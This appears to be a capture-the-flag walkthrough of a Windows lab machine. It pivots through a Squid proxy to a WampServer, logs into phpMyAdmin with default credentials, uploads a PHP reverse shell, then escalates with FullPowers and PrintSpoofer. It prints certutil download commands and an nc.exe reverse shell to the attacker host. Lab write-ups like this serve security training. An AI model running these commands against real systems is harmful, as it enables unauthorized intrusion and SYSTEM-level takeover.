


Squid was a challenging box that involved utilizing a Squid proxy to discover internal services, exploiting a phpMyAdmin file upload vulnerability to gain initial access, and then escalating privileges using Windows-specific techniques.

The process included using spose to identify internal services, leveraging the proxy to access a WampServer, and ultimately using FullPowers.exe and PrintSpoofer to gain SYSTEM access. 

This machine was a great way to practice working with proxy configurations and Windows privilege escalation.

# Diagram

## Information Gathering

### Port Scan
---

- `nmap -sS -Pn -n -T4 192.168.217.189` -p 135,139,445,3128
    
    
    
- `nmap -sVC -p 135,139,445,3128 -n -Pn 192.168.217.189 -v`
    
    
    

## Enumeration

### HTTP 80

---

- [http://192.168.217.189:3128/](http://192.168.217.189:3128/) → Apparently the website uses **squid/4.14**
    
    
    

Squid is a caching and forwarding HTTP web proxy. It reduces bandwidth and improves response times by **caching** and reusing frequently-requested web pages. 

This is the squid repo https://github.com/squid-cache/squid 

I was searching in the GitHub, etc., but nothing worked. So i decided to try this: 

[https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)

- `curl --proxy http://192.168.217.189:3128 http://192.168.45.227` →  *Directory Listening in my own machine*
    
    
    

So after a while i decided to try this tool https://github.com/aancw/spose.git 

- `python spose.py --proxy http://192.168.45.227:3128 --target 192.168.45.227`
    
    
    

Ok, verifying if it’s an web page running in 8080

- `curl --proxy http://192.168.217.189:3128 http://192.168.217.189:8080`
    
    
    

Now setting up an http proxy with the extension Proxy Switcher [https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com](https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com) 

- `proxy swithcer`
    
    
    

And now trying to access it

- [http://192.168.237.189:8080/](http://192.168.237.189:8080/) → It’s a WampServer 3.2.3 - 64bit
    
    
    
- [http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap](http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap)
    
    
    
- [http://192.168.237.189:8080/phpmyadmin/index.php](http://192.168.237.189:8080/phpmyadmin/index.php) → login panel MySQL - tried default creds (root:)
    
    
    
    
    

Verifying some documentation about phpMyAdmin...

[https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) 

[https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f) 

- [http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema](http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema)
    
    
    
    
    
- [http://192.168.237.189:8080/uploader.php](http://192.168.237.189:8080/uploader.php)
    
    
    

Reverse shell must be for windows

[https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

- [http://192.168.237.189:8080/php_reverse_shell.php](http://192.168.237.189:8080/php_reverse_shell.php)
- `sudo  rlwrap nc -lvnp 80` → Nt authorithy
    
    
    

- `flag`
    
    
    

## Priv Escalation

---

The first thing that i want to do is revoke all firewalls. I’ve tried but the user don’t have permission.

So after a while i decided to put winPEAS inside the machine

- `certutil.exe -urlcache -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe`
    
    
    
- `winPEASx64.exe` → *Apparently* [https://exploit-db.com/exploits/46718](https://exploit-db.com/exploits/46718) *- CVE-2019-0836* [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation)
    
    
    
    
    
    
    
    
    

Ok, nothing worked, but after enumerate, and after i saw that i was an nt authority but with “local service’

- `whoami`
    
    
    

I found this [https://itm4n.github.io/localservice-privileges/?ref=benheater.com](https://itm4n.github.io/localservice-privileges/?ref=benheater.com) After read the article i found that he did an script [https://github.com/itm4n/FullPowers/releases](https://github.com/itm4n/FullPowers/releases)

- `certutil.exe -urlcache -f http://192.168.45.227/FullPowers.exe FullPowers.exe`
    
    
    
- `FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.227 4430 -e cmd" -z`
`sudo rlwrap nc -lvnp 4430`
    
    
    

- `whoami /priv` → Now i’ve SeImpersoantePrivilage enabled
    
    
    

So i’ll use the https://github.com/itm4n/PrintSpoofer/releases

- `certutil.exe -urlcache -f http://192.168.45.227/PrintSpoofer64.exe PrintSpoofer64.exe`
    
    
    

- `PrintSpoofer64.exe -i -c cmd` → Priv escalado
    
    
    

- `flag`
    
    